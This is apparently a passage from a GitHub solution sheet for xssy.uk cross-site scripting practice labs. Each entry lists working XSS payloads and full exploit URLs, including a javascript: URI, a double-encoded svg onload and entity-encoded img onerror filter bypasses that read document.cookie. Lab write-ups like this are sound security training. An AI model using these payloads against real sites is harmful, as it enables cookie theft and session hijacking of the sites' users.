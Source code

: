 
### Lab 769: Click [DOM XSS]
- **URL Lab**: https://xssy.uk/lab/769
- **Payload**: 
```javascript
javascript:alert(document.cookie)#tracker
```
- **Full URL**: 
```
https://se64r6zd.xssy.uk/target.ftl?search=javascript%3Aalert(document.cookie)#tracker
```

---

## Apprentice Level

### Lab 7: Double Decode XSS
- **URL Lab**: https://xssy.uk/lab/7
- **Payload**: 
```html
%3Csvg%20onload%3Dalert(document.cookie)%3E
```
- **Full URL**: 
```
https://vbrnqq5l.xssy.uk/target.ftl?name=%253Csvg%2520onload%253Dalert%28document.cookie%29%253E
```

---

### Lab 19: Brackets Filtered XSS
- **URL Lab**: https://xssy.uk/lab/19
- **Payload**: 
```html
<img src=x onerror=alert&#0000000040;document.cookie&#0000000041;>
```
- **Full URL**: 
```
https://bdls3zqi.xssy.uk/target.ftl?name=%3Cimg+src%3Dx+onerror%3Dalert%26%230000000040%3Bdocument.cookie%26%230000000041%3B%3E
```

---

### Lab 162: Brackets & Backticks Filtered
- **URL Lab**: https://xssy.uk/lab/162
- **Payload**: 
```html
<img src=x onerror=alert&#0000000040;document.cookie&#0000000041;>
```
- **Full URL**: 
```
https://rtck36fl.xssy.uk/target.ftl?name=%3Cimg+src%3Dx+onerror%3Dalert%26%230000000040%3Bdocument.cookie%26%230000000041%3B%3E
```

---
